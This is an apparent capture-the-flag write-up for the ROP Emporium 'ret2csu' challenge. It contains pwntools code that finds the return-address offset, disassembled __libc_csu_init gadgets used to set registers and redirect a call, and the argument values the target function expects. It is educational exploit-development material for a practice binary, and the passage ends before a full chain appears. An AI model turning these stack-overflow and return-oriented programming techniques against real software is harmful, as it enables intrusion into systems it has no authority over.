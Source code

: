 # "ret2csu" ROPEmporium Challenge 8 Writeup

Instead of using `gdb-peda`'s `pattern create`, I made use of `pwntools` this
time.

```python
# wait until program is ready to receive input
p.recvuntil(b'> ')

def find_rip_offset():
    p.sendline(cyclic(500))
    p.wait()
    core = p.corefile
    stack = core.rsp
    info("rsp = %#x" % stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d" % rip_offset)


find_rip_offset() # => 40
```

---

`ret2csu` is a technique combining two gadgets from the `__libc_csu_init`
function.

The first gadgets is used to set a bunch of registers:

```
  40069a:	5b                   	pop    %rbx
  40069b:	5d                   	pop    %rbp
  40069c:	41 5c                	pop    %r12
  40069e:	41 5d                	pop    %r13
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

The next gadgets moves some values from registers we control to other
registers, and ends with a `call` (also under our control):

```
  400680:	4c 89 fa             	mov    %r15,%rdx
  400683:	4c 89 f6             	mov    %r14,%rsi
  400686:	44 89 ef             	mov    %r13d,%edi
  400689:	41 ff 14 dc          	call   *(%r12,%rbx,8)
```

`ret2win` is very picky about its arguments, those need to be:

```
# %rdi: 0xdeadbeefdeadbeef
# %rsi: 0xcafebabecafebabe
# %rdx: 0xd00df00dd00df00d
```
